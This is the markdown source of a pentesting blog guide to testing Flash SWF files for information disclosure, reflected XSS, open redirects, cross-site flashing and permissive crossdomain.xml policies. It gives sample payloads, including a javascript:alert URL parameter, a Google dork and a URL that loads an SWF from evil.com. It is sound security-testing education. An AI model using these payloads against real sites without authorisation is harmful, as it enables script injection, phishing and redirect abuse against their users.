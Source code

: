```yaml
---
layout: post
title: Flash Testing for Dummies
tags: [pentest, guide]
category: posts
---
```


*or: A Fast Flash Testing Guide for the Busy Pentester*

--

The aim of this "guide" is to provide an up-to-date and easy way to test SWF files, without the assle of learning ActionScript or wasting excessive time, while still getting the relevant low hanging fruits.

*Note - All the techniques presented in this article have been tested and confirmed working in Chrome 23 with Flash 11.5, running on OS X 10.7.5.*

### # Tools of the Trade

The most useful tool is probably [HP SWFScan][swfscan], which provides a decompiler and an automatic vulnerability scanner. While the software is prone to false negatives, it's still the best tool when you need to analyze ActionScript code in a limited time.

If a Windows operating system is not an option or you'd rather dive directly into the code without a fancy GUI, [flare][flare] is what you are looking for. Flare is a simple command-line decompiler, very reliable, but its development came to a halt in 2005.

Other tools that might be useful are [Adobe SWF Investigator][swfinvestigator], which provides a disassembler and other utilities, and [SWFTools][swftools], a collection of several software that, sadly, lacks a decompiler. 

### 1- Search Engine Discovery

In order to find all (most?) the SWF files on your target domain you just need a simple Google dork: `filetype:swf site:TARGET`.

If the amount of files returned by the previous generic search is too much, try reducing it with `inurl:login`, `inurl:admin`, `inurl:secure` or similar.
	
### 2- Information Disclosure

There is literally anything you could find hard-coded inside SWF files: from remote gateways to authentication credentials, from IP addresses to remote resources.

In order to identify all the interesting information inside of a SWF file, you need to decompile (or disassemble) it and review the code manually. Note that while SWFScan sometimes identifies critical data, it just isn't reliable enough to trust exclusively its automatic results.

### 3- Reflected Cross-Site Scripting

The main cause for XSS in Flash files is the use of **uninitialized variables**, which, if not initialized to a value, can be arbitrarily assigned by users. Furthermore, global variables (\_root.\*, \_global.\*, \_level0.\*) and unsafe methods (e.g. getURL, loadVars.\*, XML.load, htmlText, loadVariables, loadMovie, loadMovieNum) need to be taken into account when looking for vulnerable code in Flash files. A sample payload that can be used to test for XSS is `javascript:alert('XSS')`.

	{% raw %}
	button 16 {
		on (release) {
			getURL(clickTAG, '_self');
		}
	}
	{% endraw %}

The *clickTAG* variable in the previous decompiled code is not initialized and will accept any value. Hence, the XSS could be triggered trivially: `http://example.com/home.swf?clickTAG=javascript:alert('XSS')`.

The following are all examples of code vulnerable to XSS.

	{% raw %}
	var __callResult_1 = getURL(_root.clickTag, "_blank");
	var __callResult_2 = getURL(clickTag, "_blank");
	var __callResult_3 = getURL(clickTag, "");
	{% endraw %}

On the other hand, `var __callResult_4 = getURL("http://example.com", "_blank");` is not vulnerable.

### 4- Open Redirect

Uninitialized variables also cause SWFs to be vulnerable to Open Redirects, allowing an attacker to forge a URL that will redirect users to an arbitrary domain.

If you find uninitialized variables in the code or a file that accepts a remote file as parameter (e.g. `http://example.com/supertrooper.swf?band=/abba.asp`), it is probably an open redirector and should be tested accordingly.

##### Recap: How to Test for XSS and Open Redirects

1. Get the SWF file
2. Decompile it
3. Scan the code with SWFScan
4. Review the code checking for variables
5. Test the variables that seem vulnerable (do not trust SWFScan)

### 5- Cross-Site Flashing

Cross-Site Flashing (XSF) occurs when an SWF file is able to load another file from a different domain. The vulnerable SWF can be exploited to load a malicious Flash file that can be used to perform several kinds of attacks, such as Cross-Site Scripting or Phishing via a fake interface. Let's take a look at some code:

	{% raw %}
	internal function frame1(){
   		this.url = "";
   		this.movieurl = "";
   		this.paramObj =
   		LoaderInfo(this.root.loaderInfo).parameters;
   		this.movieurl = String(this.paramObj["movieurl"]);
   		if(this.movieurl != "") {
       		this.LoadMovie(this.movieurl);
   		} else {
       		this.LoadMovie("defaulf.swf");
   		}
		[...] 
		{% highlight actionscript %}
	
As can be seen in the previous code, the *movieurl* variable is not initialized and the *LoadMovie* function accepts any value, even from external domains. So, the vulnerable SWF will load any file: `http://example.com/movie.swf?movieurl=http://evil.com/xss.swf`

### 6- Crossdomain Policy

A SWF file is not allowed to access data that resides outside of its web domain and a sub-domain is not able to read data from a parent domain (and vice-versa). The Flash Player uses cross-domain policy files to give permission to access data from a given domain.

Testing for a vulnerable cross-domain policy is trivial: take a look at the `/crossdomain.xml` file, always found in the website root. If it looks like the following code...

	<cross-domain-policy>
		<allow-access-from domain="*"/>
	</cross-domain-policy>
	
...then the website accepts requests from Flash files from **all** domains and will return the full response.

### # References

Following are the articles and documents used to get most of the information presented in this post, listed chronologically.

* 2006 - [The Dangers of Cross-Domain Ajax with Flash][shiflett1] (by Chris Shiflett)
* 2006 - [The crossdomain.xml Witch Hunt][shiflett2] (by Chris Shiflett)
* 2008 - [Crossdomain.xml Invites Cross-site Mayhem][grossman] (by Jeremiah Grossman)
* 2009 - [Blinded by Flash: Widespread Security Risks Flash Developers Don’t See][prajakta] (by Prajakta Jagdale)
* 2010 - [Neat, New, and Ridiculous Flash Hack][bailey] (by Mike Bailey)
* [OWASP - Testing for Cross Site Flashing][owasp]


[swfscan]: http://h30499.www3.hp.com/t5/Following-the-Wh1t3-Rabbit/SWFScan-FREE-Flash-decompiler/ba-p/5440167
[flare]: http://www.nowrap.de/flare.html
[swfinvestigator]: http://labs.adobe.com/downloads/swfinvestigator.html
[swftools]: http://www.swftools.org/

[prajakta]: http://www.blackhat.com/presentations/bh-dc-09/Jagdale/BlackHat-DC-09-Jagdale-Blinded-by-Flash.pdf
[bailey]: http://www.blackhat.com/presentations/bh-dc-10/Bailey_Mike/BlackHat-DC-2010-Bailey-Neat-New-Ridiculous-flash-hacks-slides.pdf
[shiflett1]: http://shiflett.org/blog/2006/sep/the-dangers-of-cross-domain-ajax-with-flash
[shiflett2]: http://shiflett.org/blog/2006/oct/the-crossdomain.xml-witch-hunt
[grossman]: http://jeremiahgrossman.blogspot.it/2008/05/crossdomainxml-invites-cross-site.html

[owasp]: https://www.owasp.org/index.php/Testing_for_Cross_site_flashing_%28OWASP-DV-004%29